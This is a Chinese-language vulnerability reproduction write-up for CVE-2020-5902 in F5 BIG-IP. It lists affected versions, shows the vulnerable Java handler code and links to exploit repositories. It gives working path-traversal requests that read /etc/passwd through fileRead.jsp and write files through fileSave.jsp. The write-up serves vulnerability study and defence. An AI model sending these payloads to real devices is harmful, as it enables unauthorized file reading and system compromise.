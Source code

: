 # F5 BIG-IP 远程代码执行漏洞 CVE-2020-5902

## 漏洞描述

2020年07月03日， 360CERT监测发现 `F5` 发布了 `F5 BIG-IP 远程代码执行` 的风险通告，该漏洞编号为 `CVE-2020-5902`，漏洞等级：`严重`。

未授权的远程攻击者通过向漏洞页面发送特制的请求包，可以造成任意 Java 代码执行。进而控制 `F5 BIG-IP` 的全部功能，包括但不限于: 执行任意系统命令、开启/禁用服务、创建/删除服务器端文件等。该漏洞影响控制面板受影响，不影响数据面板。

## 漏洞影响

<a-checkbox checked>F5 BIG-IP 15.x: 15.1.0.4</a-checkbox></br>

<a-checkbox checked>F5 BIG-IP 14.x: 14.1.2.6</a-checkbox></br>

<a-checkbox checked>F5 BIG-IP 13.x: 13.1.3.4</a-checkbox></br>

<a-checkbox checked>F5 BIG-IP 12.x: 12.1.5.2</a-checkbox></br>

<a-checkbox checked>F5 BIG-IP 11.x: 11.6.5.2</a-checkbox></br>

## 网络测绘

<a-checkbox checked>title="BIG-IP&reg ;- Redirect"</a-checkbox></br>

## 漏洞复现

在 `tmshCmd` 的 `service`方法处理请求的时候，未对`command` 参数进行处理，直接调用 `WorkspaceUtils.runTmshCommand(cmd, request);` 方法执行命令，限制了执行`delete,create,list,modify`。



```java
if ("POST".equalsIgnoreCase(request.getMethod())) {
            String[] cmdArray = command.split(" ");
            String operation = cmdArray[0];
            String module = cmdArray[2];
            if (!ShellCommandValidator.checkForBadShellCharacters(command) && (operation.equals("create") || operation.equals("delete") || operation.equals("list") || operation.equals("modify")) && WHITELISTED_TMSH_MODULES.contains(module)) {
               try {
                  String[] args = new String[]{command};
                  Result result = Syscall.callElevated(Syscall.TMSH, args);
                  output = result.getOutput();
                  error = result.getError();
               } catch (CallException var11) {
                  logger.error(NLSEngine.getString("ilx.workspace.error.TmshCommandFailed") + ": " + var11.getMessage());
                  error = var11.getMessage();
               }
            } else {
               error = NLSEngine.getString("ilx.workspace.error.RejectedTmshCommand");
}
```



在 `fileRead` 的 `service`方法处理请求的时候，未对 `fileName` 参数进行处理，直接调用 `WorkspaceUtils.readFile(fileName);` 方法，进行文件读取。



![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220313153337125.png)



在 `fileSave` 的 `service`方法处理请求的时候，未对 `fileName`，`content` 参数进行处理，直接调用 `WorkspaceUtils.saveFile(request);` 方法，进行文件上传。



![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220313153337212.png)



[详情利用方式 https://github.com/jas502n/CVE-2020-5902](https://github.com/jas502n/CVE-2020-5902)

[详情利用方式 https://github.com/wx3514/CVE-2020-5902/blob/master/CVE-2020-5902.md](https://github.com/wx3514/CVE-2020-5902/blob/master/CVE-2020-5902.md)

`读取文件`

```
/tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/etc/passwd
```



![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220313153337254.png)



```shell
POST /tmui/login.jsp/..;/tmui/locallb/workspace/fileSave.jsp

fileName=/tmp/test.txt&content=test
```

读取文件 `/tmp/test`

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220313153337223.png)